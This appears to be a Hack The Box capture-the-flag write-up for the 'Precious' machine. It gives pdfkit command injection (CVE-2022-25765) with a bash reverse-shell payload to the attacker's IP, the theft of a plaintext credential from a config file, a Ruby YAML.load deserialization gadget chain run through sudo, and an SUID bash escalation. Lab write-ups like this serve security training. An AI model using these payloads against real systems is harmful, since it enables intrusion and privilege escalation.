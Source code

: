 ```yaml
---
layout: post
title: "HTB: Precious"
author: Andrew Cherney
date: 2023-05-21 08:20:27
tags: htb easy-box
icon: "assets/icons/precious.png"
post_description: "We start this machine by exploiting a command injection of a ruby package to gain a foothold, and escalate that to user with hard coded credentials. For root a simple ruby script exploitation of a load() function will do the trick."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Precious]
└──╼ $nmap -Pn 10.10.11.189
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-24 19:54 CST
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

I'll add <code>10.10.11.189 precious.htb</code> to my **/etc/hosts** file.

<h2>Port 80 - http</h2>

![Web Page to PDF](/img/precious/Precious_webpage_to_pdf.png)

The webpage takes a url and returns the pdf of that page. I tried fuzzing the parameters but it is very fussy about if it is a url, and will return a blank pdf if any escape characters are used. I tried looking into the request itself but there wasn't anything special. I did however look into exiftool on the returned pdf and found something noteworthy.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/Downloads]
└──╼ $exiftool lqe0xeipshi2qi6xl6ul6w69mddf81an.pdf 
ExifTool Version Number         : 12.16
File Name                       : lqe0xeipshi2qi6xl6ul6w69mddf81an.pdf
Directory                       : .
File Size                       : 4.5 KiB
File Modification Date/Time     : 2023:02:24 20:44:32-06:00
File Access Date/Time           : 2023:02:24 20:44:32-06:00
File Inode Change Date/Time     : 2023:02:24 20:44:32-06:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

<h1>Shell as ruby</h1>

<h2>pdfkit v0.8.6</h2>

Ladies and gentlemen we have what generated this, and would you believe that pdfkit v0.8.6 is vulnerable to CVE-2022-25765. With **?name=%20`** you can run arbitrary code past the grave. From an in-depth analysis of the CVE: **If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF**. Below is the payload I can toss into the webpage to gain a shell:

```
http://?name=%20`bash -c 'bash -i >& /dev/tcp/10.10.14.14/7777 0>&1'`
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Precious]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.189] 43208
bash: cannot set terminal process group (677): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$
```

I added an ssh key for future reconnection and a better shell. 

<h1>User as henry</h1>

In the ruby home directory I find another directory, which looking inside I see what looks like henry's credentials.

```bash
ruby@precious:~$ cd .bundle
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ 
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Precious]
└──╼ $ssh henry@precious.htb
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ cat user.txt
1969b57ae399e77-----------------
```

<h1>Root</h1>

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Looks to be a custom script to verify dependency versions written in ruby. I do some digging and find [that the yaml.load() function has been vulnerable for a long time to RCE](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/). I make my payload and run the exploit.

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

The command that this exploit runs is after the git_set parameter. When yaml.load() accepts user input you can require a dependency that escapes to the system method within the kernel and run commands. It's out of the scope of my writeups but [SafeYAML](https://danieltao.com/safe_yaml/) is apparently the recommended fix.

```bash
henry@precious:~$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
    ...
    ...
```

Bingo, RCE. I'll change id to **chmod u+s /bin/bash** and gain a root shell.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# cat /root/root.txt
bea16d93eba8a559----------------
```



